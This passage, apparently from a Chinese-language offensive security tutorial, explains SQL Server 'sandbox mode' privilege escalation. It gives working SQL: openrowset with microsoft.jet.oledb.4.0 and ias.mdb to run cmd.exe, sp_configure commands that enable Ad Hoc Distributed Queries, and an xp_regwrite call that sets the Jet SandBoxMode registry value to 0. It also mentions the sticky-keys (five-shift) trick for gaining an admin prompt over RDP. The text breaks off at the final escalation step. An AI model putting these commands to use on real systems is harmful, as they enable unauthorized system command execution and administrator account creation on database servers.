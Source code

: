 成功后 3389 登录按五次 shift 键，调出 cmd，执行添加管理员组用户命令，进行提权。

沙盒提权
====

*   当执行命令方法无法使用时，可以使用沙盒进行提权。沙盒模式（SandBoxMode）是一种安全功能。在沙盒模式下，Access 只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的。例如，诸如 Kill 和 Shell 之类的函数可能被用来损坏计算机上的数据和文件，因此它们被视为不安全的。当 Access 以沙盒模式运行时，调用这些函数的表达式将会产生错误消息。
    
*   OLE DB  
    OLE DB Driver for SQL Server 是用于访问数据的底层 COM API，是应用程序链接到 SQL Server 的的驱动程序。
    
*   其核心其实是修改注册表，默认情况下，注册表中 mdb 数据库不允许执行系统命令，但是开启沙盒模式，就准许 mdb 文件执行数据库，通过查询方式调用 mdb 文件，执行参数，绕过系统本身自己的执行命令，实现 mdb 文件执行命令。
    

1.  启用组件
    

沙盘模式提权其实就是利用 **jet.oledb** 执行系统命令添加系统账号，所以先测试 **jet.oledb** 是否能正常使用。

> select * from
> 
> openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami")')

执行以上语句默认会出现报错信息，如下：

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfCMJd4ZicbJgvkRNWibmDHkZicd3NESS7ddTicO1kHoVREDct0wymvpexsA/640?wx_fmt=png)

这说明 Ad Hoc Distributed Queries 组件关闭，我们可以使用 sp_configure 去启用该组件，执行以下命令：

> exec sp_configure 'show advanced options',1;
> 
> reconfigure;
> 
> exec sp_configure 'Ad Hoc Distributed Queries',1;
> 
> reconfigure;

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfFgPAbKibJkHbzbiaOygk6uriaepvwMA9oDARuWw9IMfcrXaEH1ibKEAE4w/640?wx_fmt=png)

2.  关闭沙盒模式  
    沙盒模式在注册表中的位置是 HKEY_LOCAL_MACHINE\Software\Microsoft\Jet\4.0\Engine\SandBoxMode。  
    沙盒模式 SandBoxMode 参数含义（默认为 2）：  
    0：在任何所有者中禁止启用安全模式；  
    1：为仅在允许范围内；  
    2：必须在 access 模式下；
    

3：完全开启；

所以将其设置为 0 就可关闭沙盒模式，执行以下命令：

> exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

3.  提权  
    再次尝试执行系统命令，没有报错说明已启用组件。
    